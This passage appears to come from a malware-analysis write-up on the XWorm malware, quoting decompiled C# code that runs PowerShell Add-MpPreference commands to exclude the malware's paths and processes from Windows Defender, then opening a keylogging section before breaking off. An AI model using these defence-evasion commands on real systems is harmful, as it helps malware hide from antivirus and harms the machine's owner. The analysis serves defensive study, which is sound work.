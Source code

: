 ```c#
processStartInfo.Arguments = "-ExecutionPolicy Bypass Add-MpPreference -ExclusionPath '" + ACX0qTJzEzq40qP5qFxb.Path_to_running_process + "'";
```
This adds an exclusion to Windows Defender for a directory/file path located at `ACX0qTJzEzq40qP5qFxb.Path_to_running_process`. This will exclude that file/directory from Windows Defender scans.
Command 2:
```c#
processStartInfo.Arguments = "-ExecutionPolicy Bypass Add-MpPreference -ExclusionProcess '" + Process.GetCurrentProcess().MainModule.ModuleName + "'";
```
This adds an exclusion of the currently running process' module name, `Process.GetCurrentProcess().MainModule.ModuleName`. It will exclude this process from Windows Defender so that its actions are not tampered with.
Third Command:
```c#
processStartInfo.Arguments = string.Concat(new string[]
{
    "-ExecutionPolicy Bypass Add-MpPreference -ExclusionPath '",
    String_Class.conf_7,
    "\\\\\\\",
    String_Class.conf_8,
    "'"
});
```
This adds another exclusion for a directory or file path that could be specified by `String_Class.conf_7 and String_Class.conf_8`. These strings probably refer to some path and filename where the `WmiPrvSE.exe` or some other executable may be placed.
The Fourth Command:
```c#
processStartInfo.Arguments = " -ExecutionPolicy Bypass Add-MpPreference -ExclusionProcess ' " + Path.GetFileName(String_Class.conf_8) + "'";
```
It adds an exclusion for the file specified by `String Class:conf_8`, which, in this case, is `USB.exe`. Thus, it also excludes this particular process -`USB.exe`-from Windows Defender scanning.

## Key Logging
The program is mostly a key logger because of its keylogging routine which depends on three elements:
- hooking_routin
- clipboard_monitoring_applications
- take_debuging_prevs

![](/assets/images/malware-analysis/Xworm/key_logging_1.png)
 
## Hooking routine 

